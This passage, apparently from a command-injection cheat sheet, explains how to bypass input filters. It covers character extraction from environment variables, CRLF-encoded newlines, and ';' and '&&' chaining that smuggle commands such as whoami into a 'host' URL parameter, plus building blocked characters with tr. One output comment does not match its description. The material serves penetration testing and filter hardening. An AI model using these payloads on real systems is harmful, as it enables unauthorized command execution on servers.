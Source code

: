 You can extract specific characters from Linux environment variables like `${PATH}` or `${PWD}` to inject sequences into a command.

```bash
echo ${PATH}
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

echo ${PATH:0:1}
/  # Extracts the first character of the PATH
```

#### Using URL Encoding Variants

When characters like `%0a` (newline) are blocked, you can try other URL-encoded forms, such as `%0d%0a`, to inject a newline and execute further commands.

```bash
curl -X GET "http://example.com/api?host=192.168.1.1%0d%0awhoami"
```

#### Using Alternate Command Syntax

In scenarios where filters block commands or spaces, alternate syntax can help you bypass the restrictions and still run commands.

```bash
curl -X GET "http://example.com/api?host=192.168.1.1; echo Success"
# Output in Bash:
# Success
```

#### Logical Operator Chaining

Chaining commands with logical operators (`&&`, `||`) allows attackers to run multiple commands even when spaces or some command sequences are filtered.

```bash
curl -X GET "http://example.com/api?host=192.168.1.1&&echo BabelCheck"
# Output in Bash:
# BabelCheck
```

#### Producing Blacklisted Characters Using ASCII

You can bypass blacklists by creating characters like the backslash (`\`) indirectly. Here, we use the ASCII table and `tr` to shift characters:

```bash
echo $(tr '!-}' '"-~'<<<[)
/  # Produces the backslash by shifting the ASCII value
```

#### Ignoring Special Characters Using Quotes or Escape Characters

Certain characters, like quotes, are often ignored by shells like Bash, allowing you to bypass filters easily.
